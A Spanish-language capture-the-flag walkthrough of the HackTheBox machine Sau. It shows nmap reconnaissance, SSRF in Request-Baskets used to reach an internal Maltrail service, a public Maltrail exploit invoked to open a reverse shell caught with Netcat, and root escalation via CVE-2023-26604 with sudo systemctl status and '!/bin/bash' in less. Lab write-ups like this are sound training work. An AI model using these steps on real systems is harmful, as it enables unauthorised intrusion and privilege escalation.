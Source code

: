 # HackTheBox Sau Walkthrough

Este documento proporciona un walkthrough detallado para comprometer la máquina Sau en HackTheBox, destacando las técnicas y herramientas clave empleadas en cada etapa.

## Tabla de Contenidos

- [Introducción](#introducción)
- [Reconocimiento](#reconocimiento)
- [Explotación](#explotación)
  - [Explotación de SSRF en Request-Baskets](#explotación-de-ssrf-en-request-baskets)
  - [Explotando Maltrail](#explotando-maltrail)
- [Post-Explotación](#post-explotación)
- [Conclusión](#conclusión)

## Introducción

El propósito de este walkthrough es documentar el proceso seguido para comprometer la máquina Sau, enfocándose en superar varios desafíos de seguridad para obtener acceso como usuario y, finalmente, acceso total.

## Reconocimiento

El reconocimiento es el primer paso crítico en cualquier prueba de penetración. Utilicé `nmap` para identificar los puertos abiertos y los servicios en ejecución en la máquina objetivo:

nmap -sC -sV -oN nmap_initial <IP de la máquina>

Los resultados revelaron los siguientes puertos abiertos:

- **22/tcp** - SSH
- **80/tcp** - HTTP (No respondía)
- **55555/tcp** - HTTP (Accesible)

![Nmap](/img/Nmap.PNG)

El intento de acceso al servidor HTTP en el puerto 80 no cargó, pero el puerto 55555 reveló una aplicación web llamada **Request-baskets**.

![VentanaPrincipal](/img/Request-baskets.PNG)

## Explotación

### Explotación de SSRF en Request-Baskets

**Request-Baskets** es una herramienta para crear puntos finales temporales para inspeccionar solicitudes HTTP. La versión 1.2.1, que estaba en uso, es vulnerable a SSRF (Server Side Request Forgery). Aproveché esta vulnerabilidad para acceder a servicios internos, en particular, al servicio en el puerto 80.

![SSRF](/img/SSRF.PNG)

### Explotando Maltrail

El servicio interno redirigido resultó ser **Maltrail**, una aplicación web de monitoreo de tráfico malicioso. 

![Maltrail](/img/Maltrail.PNG)

Una búsqueda en Google reveló una vulnerabilidad en la versión específica en uso, permitiéndome ejecutar un reverse shell a través de un exploit disponible públicamente: https://github.com/spookier/Maltrail-v0.53-Exploit

python3 exploit.py [IP de escucha] [Puerto de escucha] [URL objetivo]

Utilicé Netcat para escuchar conexiones entrantes en el puerto especificado, lo que me permitió obtener acceso al sistema como el usuario **puma**.


## Post-Explotación

Dentro del directorio home del usuario **puma**, encontré el archivo `user.txt`, que contenía la flag de usuario.

![Usuario](/img/Usuario.PNG)

Ahora es el turno de escalar privilegios, la cual desde mi punto de vista es la parte más complicada.

Comienzo ejecutando el comando sudo -l, y observo que el usuario puma tiene permisos para ejecutar un servicio de systemctl como root.

![Sudoers](/img/sudol.PNG)

Teniendo en cuenta esto, compruebo cual es la version del servicio systemctl con el comando:

systemctl --version

![Systemctl](/img/SystemCtlVersion.PNG)


Realizo una búsqueda y encuentro una vulnerabilidad con la versión que observamos: CVE-2023-26604

Me ha costado bastante entender esta vulnerabilidad, pero dejo por aquí la explicación de lo que yo he entendido.

Para entenderla, primero es importante conocer algunos componentes involucrados:

- systemd: Es un sistema y gestor de servicios para Linux, utilizado para iniciar, detener y gestionar varios servicios y procesos durante el arranque del sistema y mientras el sistema está en funcionamiento.
  
- sudo: Es un programa para sistemas Unix y Linux que permite a los usuarios ejecutar programas con los privilegios de seguridad de otro usuario, normalmente el superusuario (root).
  
- less: Es un programa de paginación que permite ver (pero no cambiar) el contenido de un archivo de texto una pantalla a la vez. Es utilizado por muchos programas para mostrar texto. Y  permite al usuario invocar un shell o ejecutar comandos directamente desde su interfaz.

- LESSSECURE: Es una variable de entorno que, cuando se establece en 1, hace que less funcione en un "modo seguro", limitando algunas características para evitar posibles vulnerabilidades de seguridad.

La vulnerabilidad surge de la forma en que systemd maneja la ejecución de ciertos comandos (como systemctl status) cuando se invoca a través de sudo . En configuraciones específicas de sudoers que permiten a los usuarios no privilegiados ejecutar systemctl status mediante sudo (este es nuestro caso, como hemos visto al ejecutar el comando sudo -l), si el resultado del comando es demasiado extenso para caber en la pantalla, sudo invocará automáticamente a less para paginar la salida. Aprovechandonos de que less está ejecutado como root, aprovechamos para invocar un shell como root.

Para realizarlo:

- Ejecutamos el comando para el cual tenemos permisos de root: sudo /usr/bin/systemctl status trail.service

- Una vez ejecutado observamos que se ha ejecutado less, y escribimos : !/bin/bash

  ![EscaladoRoot](/img/EscaladoRoot.PNG)

Así conseguimos ejecutar una shell en bash con privilegios de root, una vez dentro nos dirigimos a la carpeta root y  observamos que está la flag de root, finalizando así el desafío.

## Conclusión

Este documento detalla el proceso seguido para comprometer la máquina Sau en HackTheBox, desde el reconocimiento inicial hasta la post-explotación. Este ejercicio subraya la importancia de la actualización de software, ya que como hemos visto, las vulnerabilidades aprovechadas se debían a software desactualizado.


